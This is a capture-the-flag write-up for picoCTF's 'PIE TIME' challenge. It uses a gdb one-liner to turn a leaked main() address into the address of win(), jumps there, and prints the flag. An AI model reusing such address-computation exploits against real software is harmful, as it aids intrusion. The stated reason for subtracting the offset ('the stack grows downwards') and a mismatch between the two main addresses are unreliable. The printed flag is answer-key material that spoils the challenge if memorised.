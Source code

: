 # PIE TIME

Can you try to get the flag? Beware we have PIE!

* The source code could be found [here](./vuln.c).
* The binary could be found [here](./vuln).

# Solution

Looking at the source code [vuln.c](./vuln.c), we see that that the `win()` function is where the flag is read and printed.

Thus, to solve this problem, we'll use two terminals and `gdb`.

In terminal 01 execute the binary:

```shell
./vuln
```

```shell
Address of main: 0x5d9a19d6f33d
Enter the address to jump to, ex => 0x12345:
```

In terminal 02 we use `gdb` to find the offset of the `win()` function and `main()` then we add this offset to the Address of main `0x5d9a19d6f33d`.

```shell
gdb --quiet -ex "print/x 0x62ce98cd633d - (main-win)" -ex "quit" ./vuln
```
```shell
$1 = 0x62ce98cd62a7
```

We subtract the delta `(main - win)` from the address because the stack grows downwards in `x86` and `x86-64` architectures.

Using the address `0x62ce98cd62a7` that we get from `gdb` we could provide it as input to the program running in terminal 01 and get the flag.

```shell
Address of main: 0x62ce98cd633d
Enter the address to jump to, ex => 0x12345: 0x62ce98cd62a7
Your input: 62ce98cd62a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_31cc212b}
```

# Flag

```shell
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_31cc212b}
```

# Hints

1. Can you figure out what changed between the address you found locally and in the server output?
